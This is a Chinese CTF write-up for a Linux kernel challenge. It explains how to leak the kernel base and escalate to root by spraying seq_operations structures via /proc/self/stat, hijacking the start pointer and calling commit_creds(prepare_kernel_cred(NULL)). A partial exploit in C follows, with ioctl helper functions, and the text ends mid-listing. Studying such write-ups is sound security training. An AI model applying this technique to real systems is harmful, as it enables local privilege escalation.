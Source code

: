 本题的漏洞利用方式需要借助一个结构体：seq\_operations，大小为0x20（与queue相同），包含4个指针：

```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
}
```

这是序列文件必备的结构体，相当于一个迭代器，能够循环输出某些内容，常用于导出数据与记录，便于管理大数据文件。当一个定义了这个结构体的LKM被打开（如使用cat命令或者read）时，内核就会创建这样的一个数据结构，并首先调用start函数指针。由于这个结构体的大小为0x20，因此其很有可能与上面的queue分配到相距不远的地方。如果能够控制这里的start指针，就能够控制内核执行流。本题打开的序列文件为/proc/self/stat。

这里`open("/proc/self/stat", O_RDONLY);`堆喷一部分0x20大小的堆，然后free掉中间一个，此时可能分配的某个堆是在被free的后面一个（但不是），所以将所有的open的描述符都尝试read

在调用start前，内核将下一条指令的地址压入栈中，我们利用的就是这个地址，来获取内核的加载基址，进而通过偏移commit\_cred(prepare\_kernel\_cred(NULL))函数

但由于我们劫持到的是函数指针，一开始还是会有push rbp，所以此时泄露地址在rsp+8。然后将泄露地址加上相关偏移再通过cll 寄存器的形式调用函数

### exp

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>

typedef struct{
    uint32_t max_entries;
    uint16_t data_size;
    uint16_t entry_idx;
    uint16_t queue_idx;
    char* data;
}request_t;

void create_kqueue(int fd,uint32_t max_entries,uint16_t data_size)
{
    request_t request={
        .max_entries=max_entries,
        .data_size=data_size,
    };
    ioctl(fd,0xDEADC0DE,&request);
}

void edit_kqueue(int fd,uint16_t entry_idx,uint16_t queue_idx,char* data)
{
    request_t request={
        .queue_idx=queue_idx,
        .entry_idx=entry_idx,
        .data=data,
    };
    ioctl(fd,0xDAADEEEE,&request);
}

void save_kqueue(int fd,uint32_t max_entries,uint16_t data_size,uint16_t queue_idx)
```